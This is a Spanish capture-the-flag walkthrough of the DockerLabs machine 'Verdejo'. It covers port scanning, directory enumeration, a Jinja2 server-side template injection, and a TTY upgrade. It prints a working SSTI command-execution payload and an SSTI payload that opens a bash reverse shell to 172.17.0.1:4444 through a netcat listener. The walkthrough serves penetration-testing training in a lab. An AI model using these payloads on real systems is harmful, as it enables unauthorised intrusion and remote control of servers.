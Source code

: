 ```yaml
---
title: Verdejo - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | The Hackers Labs        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/52adb1eb-cff8-4d4e-a4a8-de78bddd1615)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `8089` (Que servicio es)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,8089 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/e6b57a30-2b81-4d4f-b542-464e63077507)

# Exploración Web
Al acceder al puerto `80`, encontramos una página de defecto de apache si nada mas aparente.

tilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/70c4ecce-ca0a-4d06-ad25-df06f798536e)

No encontramos nada aparentemente.

Accedemos al puerto `8089` 
![image](https://github.com/user-attachments/assets/bdf26108-2443-4cf4-a84f-ecfaeb317c61)

Vemos que hay un panel en el cual si escribimos algo lo llega a intrepetrar, por lo que podria ser un `SSTI`(Explica muy brevemente que es)

![image](https://github.com/user-attachments/assets/d8d32cff-03e2-4689-b6e0-b7fe78a84038)

Probando con la ayuda de este recurso [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) , estamos detras un un Jinja2.

![image](https://github.com/user-attachments/assets/e20d1cce-a914-4853-aa3b-0619ce37793a)

```url
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

# ReverseShell

Vamos a generar una shell con el siguiente comando:

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```

Simultaneamnete ejecutamos `netcat`.

```bash
nc -lvnp 4444 
```

# Intrusion

Ya estamos dentro con el usuario verde.

![image](https://github.com/user-attachments/assets/0ff21c80-8adb-4e33-9a2a-1745f392917e)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```


